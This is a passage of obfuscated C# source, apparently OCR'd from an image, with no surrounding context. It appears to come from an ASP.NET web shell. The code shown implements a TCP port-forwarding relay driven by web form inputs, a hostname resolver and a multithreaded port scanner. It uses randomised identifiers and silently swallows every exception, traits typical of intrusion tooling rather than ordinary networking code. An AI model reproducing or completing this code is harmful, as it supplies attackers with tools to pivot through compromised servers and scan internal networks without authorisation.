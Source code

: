 if (Ret&gt;0)
RKXy.rdel.BeginSend(wvZv,0,Ret,SocketFlags.None,new AsyncCallback(IZU),RKXy);
else lyTOK();
}
catch (Exception ex) { }
}
private void IZU(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
RKXy.rdel.EndSend(ar);
RKXy.ldel.BeginReceive(wvZv,0,wvZv.Length,SocketFlags.None,new AsyncCallback(this.xPS),RKXy);
}
catch (Exception ex) { }
}
public void lyTOK()
{
try
{
if (ltcpClient!=null)
{
ltcpClient.Close();
}
if (rtcpClient!=null)
rtcpClient.Close();
}
catch (Exception ex) { }
}
}
protected void vuou()
{
PortForward gYP=new PortForward();
gYP.lyTOK();
}
protected void ruQO()
{
PortForward gYP=new PortForward();
gYP.Start(llH.Value,int.Parse(ZHS.Value),eEpm.Value,int.Parse(iXdh.Value));
}
public string mRDl(string instr)
{
string tmp=null;
try
{
tmp=System.Net.Dns.Resolve(instr).AddressList[0].ToString();
}
catch(Exception e)
{
}
return tmp;
}
public void VikG()
{
string[] OTV=lOmX.Text.ToString().Split(',');
for(int i=0;i&lt;OTV.Length;i++)
{
IVc.Add(new ScanPort(mRDl(MdR.Text.ToString()),Int32.Parse(OTV[i])));
}
try
{
Thread[] kbXY=new Thread[IVc.Count];
int sdO=0;
for(sdO=0;sdO&lt;IVc.Count;sdO++)